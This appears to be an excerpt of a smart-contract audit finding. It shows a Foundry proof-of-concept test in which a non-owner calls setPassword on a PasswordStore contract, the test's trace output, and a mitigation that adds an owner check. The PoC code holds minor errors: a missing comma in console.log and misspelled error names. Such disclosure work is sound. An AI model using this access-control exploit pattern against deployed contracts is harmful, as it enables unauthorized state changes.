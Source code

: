 The following test, sets the password to `"attackerPassword"` using the attacker address. When run, this test will pass, demonstrating that the attacker can set the password:

```solidity
function test_poc_non_owner_set_password() public {
    // initiate the transaction from the non-owner attacker address
    vm.prank(attacker);
    string memory newPassword = "attackerPassword";
    // attacker attempts to set the password
    passwordStore.setPassword(newPassword);
    console.log("The attacker successfully set the password:" newPassword);
}
```

Run the test:

```bash
forge test --mt test_poc_non_owner_set_password -vvvv
```

Which yields the following output:

```bash
Running 1 test for test/PasswordStore.t.sol:PasswordStoreTest
[PASS] test_poc_non_owner_set_password() (gas: 20776)
Logs:
  The attacker successfully set the password: attackerPassword

Traces:
  [20776] PasswordStoreTest::test_poc_non_owner_set_password()
    - [0] VM::prank(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
       -  ()
    - [6686] PasswordStore::setPassword(attackerPassword)
       - emit SetNetPassword()
       -  ()
    - [0] console::log(The attacker successfully set the password: attackerPassword) [staticcall]
       -  ()
    -  ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.36ms
```

**Recommended Mitigation**

Include access control to restrict who can call the `setPassword` function to be only the owner: `s_owner`. This can be achieved in two ways:

1. Using an `if` statement, as used in the `getPassword` function, and revert with the `PasswordStore__NotOwer()` custom error if the address calling the function is not the owner:

```diff
function setPassword(string memory newPassword) external {
    // @audit check that the function caller is the owner of the contract
    if (msg.sender != s_owner) {
        revert PasswordStore__NotOwner();
    }
    s_password = newPassword;
    emit SetNetPassword();
}
```
